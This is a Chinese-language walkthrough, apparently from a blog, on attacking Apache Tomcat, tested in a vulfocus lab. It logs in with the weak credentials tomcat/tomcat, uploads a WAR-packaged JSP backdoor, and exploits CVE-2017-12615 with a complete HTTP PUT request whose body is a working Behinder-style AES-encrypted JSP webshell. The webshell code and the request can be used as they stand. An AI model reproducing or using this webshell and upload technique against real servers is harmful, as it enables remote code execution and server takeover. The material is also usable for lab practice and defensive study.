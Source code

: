 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134523703-574194956.png)

```plain
使用弱口令tomcat，tomcat进行登录

在WAR file to deploy中有一个上传地址。这里只需要上传一个jsp后门就可以进行解析，但是默认不加载jsp后缀，我们需要制作一个war包来进行解析。

制作war包：
找一个jsp后门，然后把他压缩成zip，把zip的格式改为war就可以完成
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134524292-1685260712.png)

```plain
然后上传shell.war文件
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134523400-1813437068.png)

```plain
上传完成后，默认跳转地址下面有一个/shell，
然后连接：http://123.58.236.76:49141/shell/shell.jsp
这样就连接成功了。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134523999-1936248289.png)

```plain
2、CVE-2017-12615 文件上传
当存在漏洞的Tomcat运行在Windows/Linux主机上， 且启用了HTTP PUT请求方法（ 例如， 将readonly初始化参数由默认值设置为false） ， 攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的JSP的webshell文件，JSP文件中的恶意代码将能被服务器执行， 导致服务器上的数据泄露或获取服务器权限。
影响版本:Apache Tomcat 7.0.0 - 7.0.79

环境：http://vulfocus.io/#/dashboard

抓取数据包，然后把POST请求改为PUT请求，在访问1.jsp，然后在POST提交中提交webshell后门。这个后门是上次生成的后门代码。
数据包：
PUT /1.jsp/ HTTP/1.1
Host: 123.58.236.76:27965
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 592

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
